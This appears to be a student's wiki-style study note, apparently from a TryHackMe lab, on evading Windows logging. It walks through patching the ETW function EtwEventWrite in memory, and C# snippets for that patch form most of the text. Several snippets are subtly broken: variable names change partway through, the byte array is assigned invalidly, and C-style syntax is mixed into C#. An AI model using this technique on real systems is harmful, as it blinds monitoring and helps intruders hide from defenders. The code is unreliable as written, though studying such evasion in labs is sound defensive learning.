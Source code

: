 # ETW-Evasion Patching Tracing Functions

Patching Tracing Functions is a [[Logging-And-Monitoring-Evasion]] technique. The [[ETW]] (ETW) is loaded from the runtime of every new process, commonly originating from the **CLR** (**C**ommon **L**anguage **R**untime). Within a new process, ETW events are sent from the userland and issued directly from the current process. 

The techniques involve [[Binary-Patching]] (writing pre-defined opcodes to an) in-memory function of ETW to patch and disable functionality
1. Obtain a handle for `EtwEventWrite` by loading the library using `LoadLibrary` then obtain the handle using `GetProcAddress`
```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```
2. Modify memory permissions of the function - the permissions are defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).
```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```
3. Write opcode bytes to memory (writing to the function not a process with `Marshal.Copy`!)
```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```
4. Restore memory permissions of the function (optional, but probably a good idea) 
```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```
5. Flush (the patched function will be executed from the instruction cache) the instruction cache
```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

## References

[Microsoft Documentation - Memory Protection Constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)
[THM Evading Logging and Monitoring Room](https://tryhackme.com/room/monitoringevasion)

